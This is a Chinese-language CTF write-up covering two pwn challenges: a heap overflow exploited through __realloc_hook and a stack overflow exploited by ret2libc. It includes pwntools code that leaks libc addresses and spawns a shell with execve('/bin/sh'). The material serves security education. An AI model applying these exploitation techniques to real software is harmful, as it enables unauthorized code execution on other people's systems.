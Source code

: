 ### <a class="reference-link" name="mycard"></a>mycard

pwn第一个题主要堆上的问题，首先主函数有4个功能，分别是`create`、`edit`、`delete`和`exit`，如下图所示，常见的清单型pwn题。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0199644b47aeec3b55.png)

关键的漏洞主要是由于在edit过程中，没有对分配的块大小进行检测，如果重新设置的大小比原来的大，会导致堆溢出的情况发生。由于程序中开启了所有的保护，比较常见的方式是通过`hook`来进行漏洞利用，那么我们首先要泄露出`libc`的基地址。

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

那么在这个程序中我们的确是能泄露出`libc`的基地址的，如下图所示。

[![](https://p0.ssl.qhimg.com/t01c39e8279492c3edf.png)](https://p0.ssl.qhimg.com/t01c39e8279492c3edf.png)

由于`write`函数设置了固定长度的输入，而堆块上也会存在`libc`的地址，通过泄露该地址，我们就能拿到`libc`的地址，绕过保护，代码如下：

```
libc = ELF('libc.so.6')
realloc_hook = libc.symbols['__realloc_hook']
libc.address = delete(3) - realloc_hook - 240
```

然后我们将堆块的地址指向`hook`函数的自动，进一步再将`hook`指向`system`的地址，最后调用`realloc`即可`getshell`。

### <a class="reference-link" name="rrr"></a>rrr

这个题的漏洞主要是栈缓冲区溢出，如下图所示，读取字节过长导致栈溢出，所以能够劫持控制流。

[![](https://p4.ssl.qhimg.com/t01d84bcda9685b503e.png)](https://p4.ssl.qhimg.com/t01d84bcda9685b503e.png)

那么这个题方法有很多，由于没有`canary`检测，无论是`stack pivot`来进行栈迁移执行`shellcode`还是传统的`ret2libc`都行，需要注意的是这里程序中有个随机值异或的过程，最简单的方式就是控制`strlen`的返回值来防止后续字节被修改。<br>
我自己还是通过`ret2libc`来实现的，通过`puts`函数来打印出`got`表项的地址，然后计算出偏移量，返回到主函数再进行一次栈溢出，返回到`system`或`execve`即可`getshell`。

```
s.recv()
payload = flat([cyclic(48),0, elf.plt['puts'], 0x8048480, elf.got['puts']])
s.send(payload)
puts_addr = u32(s.recvuntil("xf7").ljust(4, 'x00'))
log.success("puts_addr -&gt; `{`:#x`}`".format(puts_addr))
s.recv()
libc.address = puts_addr - libc.symbols['puts']
log.success("libc.address -&gt; `{`:#x`}`".format(libc.address))

payload = flat([cyclic(48),0, libc.symbols['execve'], 0x8048480,next(libc.search("/bin/sh")),0,0])
s.send(payload)
#s.recv()
s.interactive()
```
